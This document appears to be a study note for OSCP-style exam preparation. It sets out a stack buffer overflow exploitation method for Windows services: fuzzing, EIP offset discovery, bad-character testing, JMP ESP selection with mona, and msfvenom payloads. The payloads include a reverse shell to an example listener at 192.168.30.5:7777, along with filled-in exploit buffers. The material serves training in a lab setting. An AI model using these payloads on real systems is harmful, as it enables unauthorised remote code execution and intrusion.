 # General buffer overflow methodology


## High-level
1. crash (FUZZ/SPIKE)
1. replicate crash
1. Find/Controlling `#!asm EIP` exact byte
1. Make sure space for shellcode is enough
1. Find Bad Characters
1. Find `#!asm JMP` function
1. Make shellcode * pop calc
1. Make shellcode * reverse_shell
1. Try to exit payload gracefully

## Detailed Instructions

 * Load service in Immunity Debugger
 * Fuzz using [Fuzzing_Script.py](/OSCP/Buffer_Overflow/Fuzzing_Scripts/Simple_Fuzz/)
 * Replicate Crash using [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/)
 * Find bytes by sending unique string
	* 
		```bash
		/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number_of_buffer>
		```
	* Plugin it into[BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/)
		* Swap "A"s with pattern_create output
    * `#!python !mona findmsp`
    * or
 	* 
 		```bash
 		/usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number_of_buffer> -q <value_in_register>
 		```
 * Modify [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/) to `#!python "A"*<result_from_pattern_offset.rb> + "B"*4 + "C"*<value of As and Bs * original buffer used for crashing the application>`
    * i.e. `#!python buffer = 'A'*2606+'B'*4+'C'*(3100-2606-4)`
 * Find where to put shellcode and redirect/replace value of the `#!asm EIP` register (Bs or `42424242`)
	* Usually where the Cs are (`#!asm ESP`? `#!asm EAX`?) or probably the As?
		* Find out if the As or Cs or the suitable location of payload is 350 bytes to 400 bytes in size (average size of shellcode)
			* If not try to increase [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/) buffer size (Replicate Crashing using [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/) above)
				* `#!python "C"*(NEW_SIZE * <EXISTING FORMULA>)`
					* i.e. `#!python "C"*2700-2606-4`
					* i.e. `#!python "C"*3500-2606-4`
					* i.e. `#!python "C"*4000-2606-4`
				* *Note: This does not always work, try to point to the As such as via EAX or other registers by making shellcode on the C section to `#!asm JMP` to `#!asm EAX` or do it straight from `#!asm EIP` (`#!asm JMP EAX`) or `#!asm JMP ESP` if it is to be placed there*
                    * *Do this NASM shell after you found the Bad Characters below since it would be a criteria in choosing base addresses without the bad chars*				
					* i.e.
						```bash
						ruby /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
						```
						* `#!asm add eax,12`
						* `#!asm jmp eax`
 * Find Bad Characters
	* Usually NULL Bytes character `#!asm \x00`
		* For Mail Servers and others, the Carriage Return `#!asm \x0d`
	* Add long string of all hex character combinations
		* `#!python "A"*<result_from_pattern_offset.rb> + "B"*4 + badchars`
         ```python
         # all 255 bytes
         badchars = ( 
         "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
         "\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
         "\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
         "\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
         "\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
         "\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
         "\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
         "\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
         "\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
         "\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
         "\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
         "\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
         "\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
         "\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
         "\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
         "\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
         ```

	* Look at what hex values disappear at the C section/badchars section and repeat till every badchar is knocked out of the list
	    * take note of the bad chars

 * Due to ASLR and random address for threaded stack based programs, find natural occurring jumps to be consistent `#!asm JMP <REGISTER_where_payload_is_observed_to_start>`
	* i.e. `#!asm JMP ESP` or `#!asm JMP EAX` depending of where the payload would start
     * `#!python !mona modules`
        * Look at "Log data" window
	    * Criteria to choose instruction (DLL)
		    * ASLR = False
		    * DEP  = False
		    * Rebase = False
		    * Memory range (Base) of the module (DLL) itself does not contain the bad characters (First four(4) bytes should not have bad chars)
		        * i.e. `#!asm 0x10000000` and `#!asm 0x00400000` has bad chars 
		        * i.e. `#!asm 0x5f400000` has no bad chars
	    * Find a naturally occurring JMP at the chosen module (DLL) (modules tab, Go to executable tab ("e") click on the module/property/dll, it will redirect to you the CPU register window the ++++ctrl+f++++ to find the instruction `#!asm JMP ###`)
	        * `#!python !mona jmp -r esp -m '<module_chosen>'`
	            * i.e. `#!python !mona jmp -r esp -m 'essfunc.dll'`
		    * find (++ctrl+f++)
			    * `#!asm JMP ESP`
			    * (or)
			    * (Sequence) (right click, Search for, sequence of commands)
				    * `#!asm push esp`
				    * `#!asm retn`
		    * if instructions does not exist go to "m" tab since the initial search (++ctrl+f++) only looks at the executable  tagged ("E")  areas/files only
			    * if module chosen earlier does not have DEP or ASLR then use any Readable "R" file and find the naturally occurring `#!asm JMPs` there
				    * find op code of `#!asm JMP ESP`
					    * ruby /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
						    * `#!asm jmp esp`
							     * i.e. `#!asm jmp esp == FFE4`
					    * `#!python !mona find -s "\xff\xe4" -m <target_module>`
						    * i.e. `#!python !mona find -s "\xff\xe4" -m slmfc.dll`
						    * choose address that does not contain any bad characters
				    * Go to address and verify `#!asm JMP <REGISTER>` code
				    * copy the address and replace the "B"s in [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/)
					    * remember to write address in reverse because x86 arch stores address in memory using little endian format
				    * test the code and place a breakpoint ++f2++ on the `#!asm JMP <REGISTER>` address just to see if on the actual BOF, it places the right address in the right order in `#!asm EIP`
				
 * Pop calc!
    * calc.exe:
    	```bash
    	msfvenom -p windows/exec EXITFUNC=thread CMD=calc.exe -f python -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai -v shellcode_calc
    	```
    
 * 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=<lhost> EXITFUNC=<process/thread/seh> LPORT=<lport> -f <language> -a <arch> --platform <platform> -b "<bad chars>" -e <encoder> -v shellcode_rev
```

	* i.e. 
		```bash
		msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=7777 EXITFUNC=thread -f python -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai -v shellcode_rev
		```
	* Troubleshooting calc.exe:
		```bash
		msfvenom -p windows/exec EXITFUNC=thread CMD=calc.exe -f python -v shellcode_calc -a x86 --platform windows -b "\x00" -e x86/shikata_ga_nai
		```
	* other payload = 
	* copy shellcode to [BOF_Skeleton.py](/OSCP/Buffer_Overflow/Skeleton/)
	* Adjust buffer length
		* i.e. `#!python "A"*2606 + "\x8f\x35\x4a\x5f" + shellcode + "C"*(3500-2606-4-351)`
	* Decoder Stub avoidance:
	    * EASY MODE: Add NOPs `#!asm \x90` to stack space for shellcode to work with * ~16 NOPs enough
	    * PRO MODE: Use `#!asm sub esp,0x10` `#!asm \x83\xec\x10` or `#!asm sub eax,0x10` `#!asm \x83\xe8\x10` instead, saves precious buffer space
	    * Use ruby nasm to know opcode value
	* EXITFUNC = thread for threaded applications, process and seh for IDK?
	* Adjust buffer length again to accommodate NOPs
		* i.e. `#!python "A"*2606 + "\x8f\x35\x4a\x5f" + "\x90" * 16 + shellcode + "C"*(3500-2606-4-351-16)`
	* Other shellcodes [Shell-storm](http://shell-storm.org/shellcode/)




## Shortcuts

* ++f2++ : Place breakpoint
* ++f7++ : play (each instruction/execution flow)
* ++ctrl+f7++ : Autoplay slowly
* ++f9++ : play till crash or forever


## Observations

* Try different `#!asm JMP ESP `address = Works
* Try without shikata_ga_nai = will not avoid bad chars without encoding
* Try without NOPs sled  = It does overwrite itself indeed
* Try NOPs sled only 8 as per guide = works, it turns out it is fine to overwrite the first 8 bytes of shellcode/encoder 
